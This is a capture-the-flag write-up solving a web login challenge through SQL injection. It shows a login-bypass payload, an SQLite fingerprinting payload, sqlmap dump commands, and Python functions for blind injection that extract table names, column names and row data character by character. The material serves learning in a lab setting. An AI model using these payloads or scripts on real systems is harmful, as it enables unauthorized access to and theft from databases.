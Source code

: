 # CTF Competition: BTC CTF

### CTF Name: Missing Class
**CTF Weight:** 300 points ~ 17 solves

![Screenshot from 2024-05-25 12-04-46](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/770dabe4-6c1a-45a7-b5ae-324be140f812)



## Writeup:

From the challenge description, it was clear that this was an SQL injection challenge since it specifically said not to use SQLMAP.

Initially, I went to the website and found that the login was indeed SQL injectable. I used an extremely basic SQL injection string into the username field; the password could be anything.


| **Username**       | **Password** |
|--------------------|--------------|
| `'OR''=''-- -`     | `a`          |

![Screenshot from 2024-05-26 17-51-57](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/f9ee7400-d126-4db3-a1ab-f87544af6c14)


The login was successful, indicating no sanitization/filtering in the user input boxes and that the SQL query used single quotes.

Since I was unable to retrieve any more information from the schedule page by checking the source code, cookies, or playing with buttons, I decided to perform a blind SQL injection attack to dump the contents of the database.

For Blind SQL injection, I typically use SQLmap for its ease and speed. The commands would have been somewhat similar to this:

| Command | Reason |
| ------- | ------ |
| `sqlmap -u {website url} --data={user input field} --dbs`                                 | Shows the name of all the databases |
| `sqlmap -u {website url} --data={user input field} -D database_name --tables`             | Displays all the table names in the specified database |
| `sqlmap -u {website url} --data={user input field} -D database_name -T table_name --dump` | Dumps out all the records in that table |

**Since using SQLMAP was not allowed**, I had to write the queries myself 😓. The logic remained the same: identify the database name, table names, and then dump all the data.

To identify the database backend, I tested various backend-specific functions. Hack Tricks provides a great cheat sheet for this. 
![Screenshot from 2024-05-26 11-28-37](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/755ce632-40b9-4770-9a0d-ece110e7c5cf)

I discovered it was `SQLite` as the following payload worked:

| **Username**       | **Password** |
|--------------------|--------------|
| `' OR sqlite_version()=sqlite_version()-- -`     | `a`          |



Now that we know it is using SQLite syntax, the rest should be straightforward. Here is a general idea of the solution script:

  1) To get the table names we need to first know how many tables there are. After running the script below I got 3 tables... `classes`, `users`, and `flag`.

```
def number_of_tables():
   for i in range(1, 1000):  # Adjust the range as needed
       payload = (f"' OR (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like "
                  f"'sqlite_%' )={i}-- -")
       if inject_payload(payload):
           print(f'Number of tables: {i}')
           return i
```
```
def table_name(table_amt, table_len):
   table_names = []
   for index in range(table_amt):
       ret = ''
       for i in range(1, table_len[index]+1):  # Adjust the range as needed
           for s in string.printable:
               payload = (f"' OR (SELECT substr(tbl_name, {i}, 1) FROM sqlite_master WHERE type='table' and tbl_name not like "
                          f"'sqlite_%' limit 1 offset {index})='{s}'-- -")
               if inject_payload(payload):
                   ret += s
                   print(ret)
                   break
       table_names.append(ret)
       print(f"===== Table:{index} name is {ret} =====")
   return table_names
```

  2) Seems pretty obvious that the flag is in the `flag` table so we just need to look in there. But, to get the data out of that table we need the column names. From these two functions I found that there was just 1 column and it is also called flag. Now that we have that, we can dump the values out of the table!!!

```
def get_column_count(table_name):
   for i in range(1, 100):  # Adjust the range as needed
       payload = f"' OR (SELECT COUNT(*) FROM pragma_table_info('{table_name}'))={i}-- -"
       if inject_payload(payload):
           print(f'Number of columns in {table_name}: {i}')
           return i
   return 0
```
```
def get_column_names(table_name):
   column_count = get_column_count(table_name)
   column_names = []
   for index in range(column_count):
       column_name = ''
       for i in range(1, 100):
           column_name_length = len(column_name)
           for s in string.printable:
               payload = (f"' OR (SELECT substr(name, {i}, 1) FROM pragma_table_info('{table_name}') "
                          f"LIMIT 1 OFFSET {index})='{s}'-- -")
               if inject_payload(payload):
                   column_name += s
                   print(column_name)
                   break
           if len(column_name) == column_name_length:
               break
       column_names.append(column_name)
       print(f'Column {index}: {column_name}')
   return column_names
```

3) This function was used to dump out the contents of the table
```
def fetch_data_from_table(table_name, column_names):
   fetched_data = []
   for row_index in range(0, 15):  # Adjust the range as needed
       row_data = {}
       for column in column_names:
           column_value = ''
           for i in range(1, 100):
               flag = len(column)
               for s in string.printable:
                   payload = (f"' OR (SELECT substr({column}, {i}, 1) FROM {table_name} "
                              f"LIMIT 1 OFFSET {row_index})='{s}'-- -")
                   if inject_payload(payload):
                       column_value += s
                       print(column_value)
                       break
               if flag == len(column_value):   # No more characters
                   break
           if column_value:
               row_data[column] = column_value
       if row_data:
           fetched_data.append(row_data)
   return fetched_data
```
And we get the Flag!!!! 😎


![Screenshot from 2024-05-26 03-36-47](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/361f242c-3b6b-4089-9866-43b3b96bd425)




